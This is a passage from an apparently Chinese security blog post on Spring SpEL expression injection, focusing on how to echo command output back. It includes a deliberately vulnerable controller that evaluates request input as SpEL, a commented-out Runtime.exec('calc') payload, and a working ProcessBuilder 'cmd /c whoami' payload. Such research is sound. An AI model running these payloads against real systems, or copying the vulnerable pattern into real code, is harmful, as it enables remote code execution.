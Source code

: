 大概可以是如上形式。  
由于SPEL啥都可以做，所以你不用这个类或者用bcel的classloader也可以

# 四、霸体螺旋丸回显

那么在Web服务中，困扰我们最多的就是回显问题了，命令执行成功了，不出网，怎么把结果带出来呢？？！不要着急，翻开纯度宝典第四页。  
我的测试代码如下

```java
package com.example.spel.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}
```

## BufferedReader

其实这并不是纯粹的回显，因为你需要return这个返回结果，而真实情况一般是不会return这个结果的。  
`payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()`  